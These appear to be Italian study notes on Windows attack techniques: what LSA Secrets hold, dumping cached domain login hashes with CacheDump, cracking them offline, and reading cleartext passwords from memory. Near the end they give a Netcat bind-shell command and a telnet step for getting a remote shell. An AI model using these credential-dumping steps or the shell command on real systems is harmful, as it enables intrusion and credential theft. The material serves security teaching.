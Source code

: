 #### Contenuto degli LSA Secrets
In dettaglio, si possono trovare:
- Password in chiaro di **account di servizio** anche appartenenti a **domini esterni**
- **Hash delle password** degli **ultimi 10 utenti** che hanno effettuato accesso al sistema
- Credenziali per servizi come:
    - FTP e siti web
    - Accessi dial-up (RAS)
    - Account computer per accedere al **dominio**

### Cache delle Login Precedenti (Previous Login Cache Dump)
- Se un computer **non riesce a contattare il Domain Controller**, Windows permette comunque il login utilizzando le **credenziali salvate in cache**.
- Vengono memorizzati gli ultimi **10 accessi al dominio**, sotto forma di hash **criptati e hashati**.
- L’attaccante può usare lo strumento **CacheDump** per recuperare questi hash.


### Risultati di CacheDump
- Gli hash estratti possono essere poi **craccati offline** usando tool come **John the Ripper**, con attacchi:
    - **Brute-force** (tutte le combinazioni)
    - **Dizionario** (parole comuni e varianti)

### Windows Credential Editor
Windows Credential Editor è uno strumento che permette di **estrarre le password in chiaro direttamente dalla RAM**.

- **Non è necessario craccare gli hash**: le credenziali vengono lette così come sono.
- Funziona solo per:
    - Utenti **attualmente loggati**
    - Oppure utenti che **sono stati loggati di recente**

### Previous Login Cache Dump Countermeasures
Non c'è molto da fare: Microsoft offre una patch che però non aiuta molto. Per ottenere gli hash è necessario disporre dei privilegi di amministratore o di SISTEMA, quindi è importante evitare di essere amministrati in primo luogo.

### Remote Control and Back Doors
====Le backdoor== sono servizi che consentono il controllo remoto, come gli strumenti di controllo remoto da riga di comando come Netcat per Windows. È possibile utilizzare questa sintassi per ascoltare sulla porta 8080 ed eseguire cmd, aggiungendo –d per la modalità stealth (nessuna console interattiva). Ovviamente, questo è molto pericoloso.

`nc -l -e cmd.exe -p 8080`
### Connecting to the nc Listener
On another machine connect with `telnet 192.168.11.2 8080`
- TELNET IP 8080
- You get a shell on the other machine
